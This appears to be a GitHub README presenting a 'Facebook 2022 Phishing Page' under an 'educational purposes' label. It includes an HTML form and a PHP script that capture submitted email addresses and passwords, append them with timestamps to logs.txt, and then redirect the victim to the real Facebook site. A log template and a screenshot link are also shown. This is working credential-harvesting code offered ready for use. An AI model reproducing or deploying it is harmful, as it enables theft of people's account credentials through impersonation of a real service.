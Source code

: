 ### Facebook 2022 Phishing Page
#### For educational purposes!

### logs.txt
```
Date and Time: (Date and Time)
Username: (Username/Email)
Password: (Password)
```

### index.html (form)
```html
<form action="./index.php" method="get">
```

### index.php
```php
<?php
if (isset($_GET["email"])){
    $username = $_GET["email"];
}
if (isset($_GET["pass"])){
    $password = $_GET["pass"];
}
$date = date("d-m-y h:i:s");

file_put_contents("logs.txt", "Date: " . $date . "\n", FILE_APPEND);
file_put_contents("logs.txt", "Username: " . $username . "\n" , FILE_APPEND);
file_put_contents("logs.txt", "Password: ". $password . "\n\n", FILE_APPEND);
header("Location: https://www.facebook.com/");
?>
```

### Page Screenshot
![image](https://user-images.githubusercontent.com/104715127/177643156-bc7cc152-b50e-4182-abf1-df67a37aa6bf.png)
